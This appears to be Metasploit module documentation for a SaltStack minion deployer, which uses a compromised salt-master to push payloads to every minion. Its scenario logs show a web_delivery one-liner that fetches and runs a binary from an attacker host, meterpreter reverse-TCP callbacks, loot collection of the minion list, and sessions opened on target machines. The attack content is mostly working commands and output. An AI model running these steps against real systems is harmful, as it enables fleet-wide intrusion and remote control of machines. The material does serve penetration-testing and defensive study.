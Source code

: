 ## Vulnerable Application

This exploit module uses saltstack salt to deploy a payload and run it
on all targets which have been selected (default all).
Currently only works against nix targets.

### Vulnerable Host

A vulnerable host install can be found in this [Docker environment](https://github.com/vulhub/vulhub/blob/master/saltstack/CVE-2020-11651/docker-compose.yml).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/saltstack_salt_minion_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### SALT

Location of salt-master executable if not in a standard location. This is added to a list of default locations
which includes `/usr/bin/salt-master`, `/usr/local/bin/salt-master`. Defaults to ``

### MINIONS

Which minions to target. Defaults to `*`

## WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

## TargetWritableDir

A directory on the target hosts we can write and execute our payload to. Defaults to `/tmp`

## CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back. Defaults to `60`

## Scenarios

### Minion 3002.2 on Ubuntu 20.04

Get initial access to the system. In this case, root was required to execute salt commands successfully.

```
resource (salt_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set srvport 8181
srvport => 8181
resource (salt_deploy.rb)> set target 7
target => 7
resource (salt_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/hvy2Ol
[*] Server started.
[*] Run the following command on the target machine:
wget -qO exVJILEV --no-check-certificate http://1.1.1.1:8181/hvy2Ol; chmod +x exVJILEV; ./exVJILEV& disown
[*] 3.3.3.3    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 3.3.3.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 3.3.3.3:45200) at 2023-12-16 09:59:02 -0500
```

```
resource (salt_deploy.rb)> use exploit/linux/local/saltstack_salt_minion_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set session 1
session => 1
resource (salt_deploy.rb)> set verbose true
verbose => true
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set lport 9996
lport => 9996
[msf](Jobs:1 Agents:0) exploit(linux/local/saltstack_salt_minion_deployer) > 

[msf](Jobs:1 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9996 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and salt-master executable found
[+] The target is vulnerable.
[*] Attempting to list minions
[*] minions:
- mac_minion
- salt-minion
- window-salt-minion
minions_denied: []
minions_pre: []
minions_rejected: []
[+] 3.3.3.3:45200 - minion file successfully retrieved and saved to /root/.msf4/loot/20231216100004_default_3.3.3.3_saltstack_minion_890818.yaml
[+] Minions List
============

 Status    Minion Name
 ------    -----------
 Accepted  mac_minion
 Accepted  salt-minion
 Accepted  window-salt-minion

[+] 3 minions were found accepted, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Writing '/tmp/E76Azw' (336 bytes) ...
[*] Copying payload to minions

[*] Executing payloads
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:9996 -> 2.2.2.2:36850) at 2023-12-16 10:00:46 -0500
```
